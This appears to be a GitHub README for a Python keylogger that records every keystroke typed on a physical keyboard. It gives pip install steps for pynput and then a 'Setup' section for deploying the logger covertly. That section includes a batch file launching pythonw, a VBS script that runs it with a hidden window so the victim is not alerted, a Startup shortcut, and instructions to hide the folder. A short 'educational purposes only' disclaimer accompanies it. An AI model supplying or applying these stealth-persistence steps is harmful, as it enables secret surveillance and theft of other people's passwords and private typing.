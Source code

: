 # Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard 

```Disclaimer: This content is intended for educational purposes only. I am not responsible for any misuse or incorrect implementation of the information provided```
## Tech Stack

 Python 


## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

*Create a folder here say ```open_it``` and execute the below instructions in it*

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

Why? Whenever the user logs in cmd prompt will come up on screen and the program will start running

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

Why? If the user sees the cmd prompt up opening he will be on alert so this file is to make it physically invisible from the screen

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

### Final Step 

Lock and Hide the ```open_it``` folder.
